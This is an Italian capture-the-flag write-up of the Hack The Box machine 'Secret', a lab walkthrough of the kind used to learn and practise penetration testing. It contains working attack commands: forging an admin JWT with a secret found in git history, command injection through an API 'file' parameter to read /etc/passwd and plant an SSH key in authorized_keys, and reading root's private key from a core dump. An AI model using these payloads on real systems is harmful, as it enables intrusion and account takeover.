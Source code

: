 # HTB-Secret-WriteUp
Write Up of HTB machine: Secret

Prima di poter connettersi ad una macchina di HTB è necessario scaricare il certificato della VPN dalla dashboard ed utilizzare OpenVPN:

**$openvpn [file.ovpn]**

![image](https://user-images.githubusercontent.com/65173648/150963493-27b74dcf-dc73-4008-952e-20b67bcf793f.png)

Effettuo lo scanning (fase in cui cerchiamo di raccogliere quante più informazioni possibili dall'host):

**$nmap -sS -p- -T4 -Pn -oA portScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964450-75c5a322-0788-4eea-85b4-93f372503525.png)

Effettuo l'enumeration (fase in cui cerchiamo di approndire le informazioni andando ad enumerare le porte trovare in fase di scansione):

**$nmap -sV -sC –p [porte trovate separate da virgola] -oA versionScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964922-e59aae36-22f5-4b6a-901e-a12fc41d63b6.png)

Si può notare, a prima vista, che sono presenti un web server su porta 80 e un'applicazione in Node.js su porta 3000, riportanti lo stesso titolo.

Applicazione Web:

![image](https://user-images.githubusercontent.com/65173648/150966584-c3ff72de-143a-469e-a062-19af3089a506.png)

Andando a spulciare il sito a mano e investigando nelle cartelle si notano dei path interessanti da approfondire. 

Utilizzo **gobuster** e mi salvo l'output dell'enumeration:

**$gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u [IP target] | tee WebEnumeration.txt**

![image](https://user-images.githubusercontent.com/65173648/150967244-a7e380ac-d6a0-42d9-8ec8-cae82fa97c08.png)

Uno dei path interessanti è **/api** (potenziale punto d'accesso alla macchina).

La sezione relativa alla documentazione dell'applicazione web presenta un esempio di login con "theadmin". Provo a creare un utetne con le stesse credenziali ma non va a buon fine:

**$curl -i -X POST -H 'Content-Type: application/json' -d '{"name":"theadmin", "email":"drt@dasith.works", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

![image](https://user-images.githubusercontent.com/65173648/150968135-0f22d504-5734-4e5e-95d6-4d3c306383d0.png)

Decido di creare un utente personale e provare a bypassare la JWT validation dato che nel file routes/verifytoken.js è presente un algoritmo JWT non specificato:

(Se riesco a bypassare la JWT, da utente user potrei diventare admin.)

**$curl -i -X POST -H 'Content-Type: application/json'-d '{"name":"m96dgHack", "email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

  
 ![image](https://user-images.githubusercontent.com/65173648/150968542-a24017bf-66d5-432d-9d0c-f06b4f17b31b.png)

Effettuo il login:

**$curl -i -X POST -H 'Content-Type: application/json'-d '{"email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/login**
  
  ![image](https://user-images.githubusercontent.com/65173648/150968638-7e7393da-04f2-4bc7-9bb9-8ae554e471e7.png)

Noto che mi viene generato un **AUTH-TOKEN** e me lo conservo.

All'interno delle cartelle c'è un file **.env** che fa riferimento ad un **TOKEN_SECRET**.

Utilizzando **jwt.io** si può notare come sia presente una voce "secret" in basso a destra, ossia un box dove inserire il token segreto dalla "history" della cartella **.git**. Il token secret del file .env non è quello giusto.

Seguire i comandi degli screen che seguono:

![image](https://user-images.githubusercontent.com/65173648/150969681-588a871c-28ba-43b6-a282-2c5c7d5b3bda.png)

![image](https://user-images.githubusercontent.com/65173648/150969704-33da6ee3-3d66-43fe-a881-d65dd8dabf66.png)

![image](https://user-images.githubusercontent.com/65173648/150969732-50fdf5ba-28e3-4c14-a68a-51123f33cdc0.png)

Conservare il TOKEN_SECRET ed utilizzarlo in combo con l'AUTH-TOKEN.

La combinazione **AUTH-TOKEN + TOKEN_SECRET** darà luogo al nuovo token decriptato da inserire per accedere come admin (prima, però, bisogna modificare il "name" da "m96dgHack" in "**theadmin**").

![image](https://user-images.githubusercontent.com/65173648/150970069-d94737c6-af0e-401a-ad78-305b3dd6d10b.png)

Arrivato a questo punto, mi incuriosisce sapere se posso effettivamente sfruttare le api sia come user sia come admin (utilizzo AUTH-TOKEN e token decriptato):

**$curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoibTk2ZGdIYWNrIiwiZW1haWwiOiJtOTZkZ0BoYWNrLml0IiwiaWF0IjoxNjQxNjQzMDI5fQ.l8Abgxt-ECwkhofDuNU08KoUIPAvSY8E8IZkqXUdg6c' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971154-b2bbb366-ad32-4158-8158-b73e45fa89af.png)

  
 **$curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971181-eff13e84-1a28-4f8e-874a-4a798b255a59.png)

Sfrutto le api per leggere il file di logs:

**$curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
  ' 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'**
  
 Noto l'utente "**dasith**" e provo ad accedere in ssh, ricordandomi le porte scansionate (porta **22** aperta).
 
 ![15 api_admin_dasith](https://user-images.githubusercontent.com/65173648/151326742-23c075b0-03d4-4753-a3ee-54e835c0bdb4.PNG)

 
 Creo una coppia di **chiavi ssh** e copio la mia chiave pubblica all'interno del server così da poter sfruttare la connessione in ssh:
 
 **$ssh-keygen -t rsa -f secret.htb -P ''**
 
 ![image](https://user-images.githubusercontent.com/65173648/150971755-ebbbeecd-b0dc-45ff-b667-a1a3581bb317.png)

![image](https://user-images.githubusercontent.com/65173648/150971768-7dbbe444-9f5b-489e-91eb-9e64a46c9d17.png)


**$export PUBLIC_KEY=$(cat secret.htb.pub)**
 
**$curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
' -G 'http://10.10.11.120/api/logs' --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys"**

![image](https://user-images.githubusercontent.com/65173648/150971800-84475b47-5ffd-4f71-8545-1804a76dbb5c.png)

Una volta loggato in ssh, ho ottenuto l'accesso come utente di sistema e ricavo la flag **user.txt**:

 ![extra_flag_user](https://user-images.githubusercontent.com/65173648/150972236-60828c9b-c848-46fd-9163-0456f942bf2b.PNG)


Ottenuta la user flag, procedo con la **privilege escalation** (fase in cui si sfrutta l'utente di sistema per accedere all'utente root con permessi di amministratore).

Cerco di sfruttare al meglio i path a cui può accedere l'user, e noto il path **/opt**, in cui sono presenti **3 file** interessanti (di cui 1 compilato).

Decido di runnare il file e provare ad accedere con i permessi di root:

![20_run_count](https://user-images.githubusercontent.com/65173648/150973629-7956f73a-f0c9-4bdf-995e-71375f97fc01.PNG)

Nulla di interessante!

Leggendo il file **valgrind.log** noto che c'è un riferimento alla memoria e decido di sfruttare il **Core Dump** (eseguo il programma e lo induco al crash):

![22_coredump_crash](https://user-images.githubusercontent.com/65173648/150974294-45be22c0-ea87-4679-a937-5ca3a270fced.PNG)

![23_sigsegv](https://user-images.githubusercontent.com/65173648/150974320-b7c989e2-6633-4ea1-91f9-861e5fa9c51c.PNG)


**$apport-unpack_opt_count.1000.crash /tmp/crash-report**

![24_reports](https://user-images.githubusercontent.com/65173648/150974637-1cbce728-01b3-47e3-9da8-0f5cb014e4eb.PNG)

Sfrutto **strings** per CoreDump:

![25_strings_coredump](https://user-images.githubusercontent.com/65173648/150974709-b202ed57-54dd-4d6b-98b3-18af75c4a9b7.PNG)

Dato che ottengo dei risultati importanti, decido di sfruttare lo stesso metodo con **/root/.ssh/id_rsa** e provare ad accedere alla chiave privata di root:

![26_crasf_for_idrsa](https://user-images.githubusercontent.com/65173648/150974882-372aeb35-7991-4782-b48c-61b1fdbdb83f.PNG)

E' possibile copiare la chiave privata di root dai risultati e provare ad accedere in ssh con essa:

![extra_root_user](https://user-images.githubusercontent.com/65173648/150975112-b57dbda8-cf9b-4915-8897-9aa899a811fe.PNG)

Ho trovato la **root.txt**!

Una volta che si inseriscono le due flag in HTB, il gioco è fatto!

![28_pwned](https://user-images.githubusercontent.com/65173648/150975209-def9973c-d6a4-4a35-8763-4665c02dd33d.PNG)







